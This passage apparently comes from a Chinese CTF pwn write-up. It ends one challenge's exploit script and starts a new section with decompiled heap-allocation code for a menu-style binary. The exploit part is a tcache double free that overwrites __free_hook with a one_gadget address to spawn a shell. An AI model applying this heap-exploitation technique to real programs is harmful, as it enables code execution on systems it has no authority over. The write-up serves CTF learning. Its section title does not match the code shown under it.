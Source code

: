 ```

onegadget = libc_base + 0x4f322

add(0x500, 'aaaa', 'aaaa')

delete(1)
delete(1)
add(0x60, p64(free_hook), 'a' * 8)
add(0x60, 'a' * 8, 'a' * 8)
add(0x60, p64(onegadget), 'a' * 8)

delete(0)

io.interactive()
```



## 0x0d picoctf_2018_can_you_gets_me

依然是一道菜单题，四个功能。

来看看申请的函数，先申请了0x10大小的空间，用来存储之后申请的内存的大小以及地址。这里申请空间大小受到了限制，只能申请0x18或者0x38大小的空间。

```
unsigned __int64 create()
`{`
  char *v0; // rbx
  int i; // [rsp+4h] [rbp-2Ch]
  size_t size; // [rsp+8h] [rbp-28h]
  char buf[8]; // [rsp+10h] [rbp-20h] BYREF
  unsigned __int64 v5; // [rsp+18h] [rbp-18h]

  v5 = __readfsqword(0x28u);
  for ( i = 0; i &lt;= 9; ++i )
  `{`
    if ( !heaparray[i] )
    `{`
      heaparray[i] = (char *)malloc(0x10uLL);
      if ( !heaparray[i] )
      `{`
        puts("Allocate Error");
        exit(1);
      `}`
      printf("Size of Heap(0x10 or 0x20 only) : ");
      read(0, buf, 8uLL);
      size = atoi(buf);
      if ( size != 24 &amp;&amp; size != 56 )
        exit(-1);
      v0 = heaparray[i];
      *((_QWORD *)v0 + 1) = malloc(size);
      if ( !*((_QWORD *)heaparray[i] + 1) )
      `{`
        puts("Allocate Error");
        exit(2);
      `}`
      *(_QWORD *)heaparray[i] = size;
      printf("Content:");
      read_input(*((_QWORD *)heaparray[i] + 1), size);
      puts("Done!");
      return __readfsqword(0x28u) ^ v5;
    `}`
  `}`
  return __readfsqword(0x28u) ^ v5;
`}`
```